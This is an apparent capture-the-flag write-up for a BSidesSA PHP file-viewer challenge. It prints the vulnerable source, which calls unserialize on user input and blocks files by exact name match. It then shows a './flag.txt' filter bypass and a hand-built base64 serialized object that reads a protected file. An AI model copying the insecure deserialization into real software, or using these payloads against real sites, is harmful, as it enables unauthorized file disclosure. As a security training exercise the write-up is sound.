 # Undynamic NoSQL

Upon first viewing of the web page, we get this:

![index](./1.png)

The expected functionality is that the web page will display a file from the drop down list.

![display](./2.png)

## Challenge Begins

The first thing to do was view the page source where the following comments appeared:

```
<!--<option value="flag.txt">flag.txt</option>-->
<!--<option value="index.php">index.php</option>-->
```

Modifying the GET request by changing the filename parameter value in the URL to access index.php showed:

view-source://xx.xx.xx.xx/?filename=index.php

```
<html>
<h1>FileViewer</h1>
<form action="/">
<select name="filename">
<!--<option value=".">.</option>-->
<!--<option value="..">..</option>-->
<option value=".htacccess">.htacccess</option>
<option value="DemoController.cs">DemoController.cs</option>
<option value="factorial.js">factorial.js</option>
<!--<option value="flag.txt">flag.txt</option>-->
<!--<option value="index.php">index.php</option>-->
<option value="main_test.go">main_test.go</option>
<option value="my.log">my.log</option>
<option value="setup.py">setup.py</option>
</select>
<input type="submit" value="submit">
</form>
<p>Want to save your File View? Bookmark this url: <a href="/?view=TzoxMDoiRmlsZVZpZXdlciI6MTp7czo4OiJmaWxlbmFtZSI7czo5OiJpbmRleC5waHAiO30=">Bookmark me!</a></p>
<?php<br />
session_start();<br />
//parse_str(implode('&', array_slice($argv, 1)), $_GET);<br />
?><br />
<html><br />
<h1>FileViewer</h1><br />
<?php<br />
class FileViewer<br />
{<br />
   var $filename = "";<br />
<br />
   function __construct($filename)<br />
   {<br />
      $this->filename = $filename;<br />
   }<br />
<br />
   function __toString()<br />
   {<br />
      if (!empty($this->filename))<br />
      {<br />
         return file_get_contents($this->filename);<br />
      }<br />
      else<br />
      {<br />
         return "No file!";<br />
      }<br />
   }<br />
}<br />
?><br />
<form action="/"><br />
<select name="filename"><br />
<?php<br />
$files = scandir(".");<br />
foreach ($files as $f)<br />
{<br />
   $select_val = "<option value=\"" . $f . "\">" . $f . "</option>";<br />
   if ($f == "." or $f == ".." or $f == "index.php" or $f == "flag.txt")<br />
   {<br />
      $select_val = "<!--" . $select_val . "-->";<br />
   }<br />
   echo $select_val . "\n";<br />
}<br />
?><br />
</select><br />
<input type="submit" value="submit"><br />
</form><br />
<?php<br />
$my_view = NULL;<br />
if (isset($_GET["filename"]) and !empty($_GET["filename"]) and $_GET["filename"] != "flag.txt")<br />
{<br />
   $my_view = new FileViewer($_GET["filename"]);<br />
   $my_view_b64 = base64_encode(serialize($my_view));<br />
   echo '<p>Want to save your File View? Bookmark this url: <a href="/?view=' . $my_view_b64 . '">Bookmark me!</a></p>';<br />
   echo "\n";<br />
}<br />
elseif (isset($_GET["view"]) and !empty($_GET["view"]))<br />
{<br />
   $my_view = unserialize(base64_decode($_GET["view"]));<br />
}<br />
<br />
if (isset($my_view) and !empty($my_view))<br />
{<br />
   echo nl2br($my_view);<br />
}<br />
?><br />
</html><br />
</html>
```

There appeared to be a bug in 

`$select_val = "<option value=\"" . $f . "\">" . $f . "</option>";<br />` 

which did not properly prevent access to index.php and directory traversal.

Thus, the flag was accessible via editing the filename parameter like so: 

xx.xx.xx.xx/?filename=./flag.txt

The less trivial and likely intended method for solving the challenge is demonstrated by the link saving functionality where the parameter is base64 encoded and passed instead.

An example parameter:

xx.xx.xx.xx/?view=TzoxMDoiRmlsZVZpZXdlciI6MTp7czo4OiJmaWxlbmFtZSI7czoxNzoiRGVtb0NvbnRyb2xsZXIuY3MiO30=

Decoding the base64 encoded string showed the parameter in the following format:

`O:10:"FileViewer":1:{s:8:"filename";s:17:"DemoController.cs";}`

This format was used to write a parameter to access flag.txt:

`O:10:"FileViewer":1:{s:8:"filename";s:8:"flag.txt";}`

Encoding it to base64 and passing it to the parameter provided access to the flag:

xx.xx.xx.xx/?view=TzoxMDoiRmlsZVZpZXdlciI6MTp7czo4OiJmaWxlbmFtZSI7czo4OiJmbGFnLnR4dCI7fQ==

BSidesSA{pea_8ch_pea_1s_gr34t}

